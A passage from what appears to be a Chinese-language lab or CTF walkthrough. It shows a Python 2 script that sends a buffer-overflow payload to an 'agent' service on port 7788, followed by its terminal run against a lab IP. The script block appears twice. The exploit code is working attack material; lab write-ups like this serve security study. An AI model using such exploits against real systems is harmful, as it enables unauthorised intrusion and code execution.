   server = str(sys.argv[1])
   port = int(sys.argv[2])
except IndexError:
   print "[+] Usage example: python %s 192.168.56.103 7788" % sys.argv[0]
   sys.exit()

#Automatically connects to agent binary, enters the Agent ID number, and sends malicious payload using option 3.
s = so.socket(so.AF_INET, so.SOCK_STREAM)
print "\n[+] Attempting to send buffer overflow to agent...."
try:
   s.connect((server,port))
   s.recv(1024)
   s.send("48093572\n")
   s.recv(1024)
   s.send("3\n")
   s.send(buf)
   s.recv(1024)
   print "\n[+] Completed."
except:
   print "[+] Unable to connect to agent over port 7788. Check your IP address and port. Make sure 7788 is really open."
   sys.exit()

try:
   server = str(sys.argv[1])
   port = int(sys.argv[2])
except IndexError:
   print "[+] Usage example: python %s 192.168.56.103 7788" % sys.argv[0]
   sys.exit()

#Automatically connects to agent binary, enters the Agent ID number, and sends malicious payload using option 3.
s = so.socket(so.AF_INET, so.SOCK_STREAM)   
print "\n[+] Attempting to send buffer overflow to agent...."
try: 
   s.connect((server,port))
   s.recv(1024)
   s.send("48093572\n")
   s.recv(1024)
   s.send("3\n")
   s.send(buf)
   s.recv(1024)
   print "\n[+] Completed."
except:
   print "[+] Unable to connect to agent over port 7788. Check your IP address and port. Make sure 7788 is really open."
   sys.exit()
```

连接到靶场7788

```
┌──(root💀kali)-[~]
└─# python agentsploit.py 192.168.32.175 7788

[+] Attempting to send buffer overflow to agent....

[+] Completed.

[+] Attempting to send buffer overflow to agent....

[+] Completed.
```


